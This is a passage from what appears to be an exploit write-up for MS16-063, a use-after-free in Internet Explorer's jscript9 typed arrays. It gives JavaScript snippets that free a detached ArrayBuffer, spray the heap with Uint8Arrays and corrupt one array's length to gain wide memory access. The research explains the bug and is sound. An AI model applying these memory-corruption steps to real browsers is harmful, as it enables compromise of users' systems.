 As shown in the PoC code, we first allocate an `ArrayBuffer` object that will back the `Int8Array`. We allocate a large `ArrayBuffer` (~2MB) so that the memory will be returned to the OS once it is freed. For this exploitation method, the exact size is not important.

```javascript
var ab = new ArrayBuffer(2123 * 1024);
var ia = new Int8Array(ab);
```

Once we detach the buffer and trigger the memory collector, which frees the allocated memory via _VirtualFree_, we fill in that space by allocating a **lot** of smaller objects that we want to modify.

```javascript
var ab2 = new ArrayBuffer(0x1337);
function sprayHeap() {
  for (var i = 0; i < 100000; i++) {
    arr[i] = new Uint8Array(ab2);
  }
}
```

This triggers the [LFH][lfh]{:target="_blank"} for the size class for _sizeof(Uint8Array)_, and several blocks of memory will be allocated for the LFH. The memory will be allocated through _VirtualAlloc_ and this likely returns the memory we just free'd by detaching the large buffer.

We can see this in action using [VMMap][vmmap]{:target="_blank"}:

<p style="margin-bottom: 0.1em;">
<img src="{{ site.url }}/images/2016-06-27/vmmap_0.png" style="width: 49%;"><img src="{{ site.url }}/images/2016-06-27/vmmap_1.png" style="width: 49%; float: right;">
</p>
<p>
<span style="width: 49%; display: inline-block; text-align: center; color: #666">1. Before ArrayBuffer allocation</span><span style="width: 49%; inline-block; text-align: center; color: #666; float: right;">2. After ArrayBuffer allocation (2124 KB)</span>
</p>

<p style="margin-bottom: 0.1em;">
<img src="{{ site.url }}/images/2016-06-27/vmmap_2.png" style="width: 49%;"><img src="{{ site.url }}/images/2016-06-27/vmmap_3.png" style="width: 49%; float: right;">
</p>
<p>
<span style="width: 49%; display: inline-block; text-align: center; color: #666">3. After detaching the buffer</span><span style="width: 49%; inline-block; text-align: center; color: #666; float: right;">4. After allocating Uint8Arrays (LFH)</span>
</p>

We now need to locate one of the `Uint8Array` object we have created. Since the `Uint8Array` class has a 4-byte _length_ member, we search for the length we specified for `ab2` (0x1337). Once found, we increment the length and find the corresponding array index in `arr`.

```javascript
for (var i = 0; ia[i] != 0x37 || ia[i+1] != 0x13 || ia[i+2] != 0x00 || ia[i+3] != 0x00; i++)
{
  if (ia[i] === undefined)
    return;
}

ia[i]++;
lengthIdx = i;

try {
  for (var i = 0; arr[i].length != 0x1338; i++);
} catch (e) {
  return;
}

mv = arr[i];
```

[ms16-063]: https://technet.microsoft.com/en-us/library/security/ms16-063.aspx
[vbscript-post]: https://github.com/theori-io/cve-2016-0189
[typed-array]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays
[chakra]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/TypedArray.h#L238
[initial-commit]: https://github.com/Microsoft/ChakraCore/blob/5d8406741f8c60e7bf0a06e4fb71a5cf7a6458dc/lib/Runtime/Library/TypedArray.h#L226
[modern-ie]: https://developer.microsoft.com/en-us/microsoft-edge/
[lfh]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366750%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396
[theori-github]: https://github.com/theori-io/jscript9-typedarray
[vmmap]: https://technet.microsoft.com/en-us/sysinternals/vmmap.aspx?f=255&MSPPError=-2147217396